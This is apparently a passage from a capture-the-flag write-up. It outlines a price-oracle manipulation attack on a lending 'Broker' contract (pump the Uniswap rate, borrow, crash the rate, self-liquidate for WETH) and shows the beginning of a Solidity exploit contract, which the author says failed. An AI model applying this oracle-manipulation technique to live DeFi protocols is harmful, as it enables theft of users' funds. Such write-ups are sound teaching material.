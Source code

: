 ##### Instructions

So here's our attack strategy:

1. Increase `rate()` as much as possible, by buying up, uh, `token1` and/or selling `token0`?
2. Deposit some collateral.
3. Borrow a bunch of MagicTokens.
4. Crash `rate()` by selling `token1` and/or buying `token0`.
5. Liquidate our own position, extracting WETH from the contract.
6. Repeat!

##### Difficulties

There are a couple issues here that I didn't quite realize until later on. Which token is the numerator and which is the denominator in `rate()`? How do you even make a trade on Uniswap?

#### The Exploit (Attempt #1)

We (or rather, I) charged ahead and wrote an [exploit contract](./Exploit.sol). I don't mind taking all of the credit for this abomination because, spoiler alert, it didn't work.

Here are the most relevant bits:

```solidity
contract Exploit {
    IERC20 immutable token0;
    IERC20 immutable token1;

    IUniswapV2PairReal immutable pair;
    Broker immutable broker;

    Token immutable token;
    WETH9 immutable weth;

    // The Uniswap router contract exposes some higher level APIs for doing a swap.
    // Instead of figuring out how to invoke the pair directly, I used the router.
    IUniswapV2Router02 constant router = IUniswapV2Router02(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D);

    constructor(Setup setup) payable {
        // Collect some useful addresses.
        IUniswapV2PairReal _pair = IUniswapV2PairReal(address(setup.pair()));
        Token _token = setup.token();
        IERC20 _token0 = IERC20(_pair.token0());
        IERC20 _token1 = IERC20(_pair.token1());
        Broker _broker = setup.broker();
        WETH9 _weth = setup.weth();

        // Mint ourselves some WETH to use later on.
        _weth.deposit{value: msg.value}();

        // Get some of that sweet MagicToken airdropped.
        _token.airdrop();

        // Flail around approving every combination of token and operator!
        _token0.approve(address(router), type(uint256).max);
        _token0.approve(address(_broker), type(uint256).max);

        _token1.approve(address(router), type(uint256).max);
        _token1.approve(address(_broker), type(uint256).max);

        // Store some constants for later.
        weth = _weth;
        token0 = _token0;
        token1 = _token1;
        pair = _pair;
```